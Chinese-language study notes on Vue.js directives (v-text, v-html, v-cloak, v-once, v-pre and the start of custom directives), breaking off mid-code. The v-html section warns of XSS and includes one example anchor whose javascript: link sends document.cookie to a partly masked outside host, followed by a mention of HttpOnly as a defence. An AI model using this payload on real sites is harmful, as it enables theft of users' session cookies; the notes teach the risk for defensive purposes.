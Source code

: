 ### v-text 指令

> 向其所在的节点中**渲染文本内容**
>

与插值语法的区别：v-text会**替换节点中的内容**,{{xx}}不会

### v-html

> 向指定节点中渲染包含**html结构**的内容

安全性问题！！！注意XSS攻击

```html
<a href=javascript:location.href="http://152.??.com?"+document.cookie>XXX</a>
```

`HttpOnly属性`：只能http协议能够携带获取

### v-cloak

> **Vue实例创建完毕并接管容器后，会删除v-cloak属性**
>
> 配置css可解决网速慢页面展示{{xx}}的问题

```html
属性选择器
[v-cloak]{
	display:none
}
<div v-cloak>{{name}}</div>
```

### v-once

> **v-once所在节点在初次动态渲染后，视为静态资源**
>
> 以后数据不会更新

```html
<div v-once>{{n}}</div>
```

### v-pre

> **跳过所在节点的编译过程**
>
> 跳过没有使用指令和插值语法的节点，加快编译

## 自定义指令

### 局部指令

```vue
<span v-big-number="n"></span>
<script>
    directives: {
        		xx(element, binding){},
                xx:function (element, binding){
                  //不包含inserted
                },
                'xx-xx':{
                    //指令与元素成功绑定
                    bind(element,binding){

                    },
                    //指令所在元素被插入页面
                    inserted(element,binding){
```